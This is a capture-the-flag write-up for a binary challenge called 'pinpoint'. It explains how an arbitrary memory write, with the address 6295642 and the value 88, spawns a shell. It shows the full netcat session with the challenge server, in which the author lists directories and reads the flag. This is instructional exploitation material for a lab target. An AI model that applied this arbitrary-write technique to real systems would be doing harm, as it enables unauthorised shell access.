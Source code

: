 I opened in Ghidra and I analysed the binary with GDB (it can be seen in main_pinpoint.c).

As we wat to get to ```system("/bin/sh");```, it is clear that the input is related with the ```v``` variable, which has the address: ```00601058```.

The input is integer, so ```00601058``` in integer is ```6295640```.

The following input will be related with ```0x5358535```, but the variable already has ```0x5358535```.

As the input accepts only two bytes, I thought it will be ```0x2020```, but after this I saw in IDA PRO that only one byte will be used.

Than I used ```6295640``` and ```0x20``` as input. After this, I found out that we need also an integer as second input.

I used the following input: ```6295640``` and ```88```. After this I saw in GDB that the address I was writing was wrong.

As I need to write to a futher possision in the momory to get the ```0x5358535```, I tried to inscrease the address. Using ```6295642``` and ```88``` as input worked, because I need to write to the third byte of the integer that has four bytes.

This is the code with the interaction with the server:
```
$ nc 141.85.224.99 31337

address to write to: 6295642
value to write: 88

ls

bin
boot
core
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd home

ls

ctf

cd ctf

ls

flag
pinpoint

cat flag

SSS{aim_for_the_kill}

exit
```

The final flag is: ```SSS{aim_for_the_kill}```.